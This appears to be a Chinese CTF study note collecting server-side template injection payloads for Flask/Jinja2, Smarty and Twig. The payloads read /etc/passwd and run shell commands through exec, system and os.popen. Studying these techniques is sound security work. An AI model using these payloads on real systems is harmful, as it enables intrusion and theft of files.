

### 基本判断

<figure>



<figcaption>

转自：https://www.cnblogs.com/20175211lyz/p/11425368.html

</figcaption>

</figure>

### flask/jinja

```
__dict__ 保存类实例或对象实例的属性变量键值对字典
__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__bases__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的

__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```

### Smarty

以下内容出自[Smarty SSTI](https://www.jianshu.com/p/eb8d0137a7d3)

**1、{php}{/php}**

Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用

**2、{literal}**

{literal}可以让一个模板区域的字符原样输出。这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。

那么对于php5的环境我们就可以使用

`<script language="php">phpinfo();</script>`

**3、{if}**

Smarty的{if}条件判断和PHP的if 非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用，如_||_,or,&&,and,is\_array(), 等等

`{if phpinfo()}{/if}`

**4、getStreamVariable**

新版本失效  
`{self::getStreamVariable("file:///etc/passwd")}`

### **twig**

文件读取

```
{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}

```

rce

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

{{['cat /etc/passwd']|filter('system')}}

POST /subscribe?0=cat+/etc/passwd HTTP/1.1
{{app.request.query.filter(0,0,1024,{'options':'system'})}}

```

### Web\_python\_template\_injection

```


    
      
      
      {{ b['eval']('__import__("os").popen("cat fl4g").read()') }}
    
  
  


```

通过执行shell命令就行了
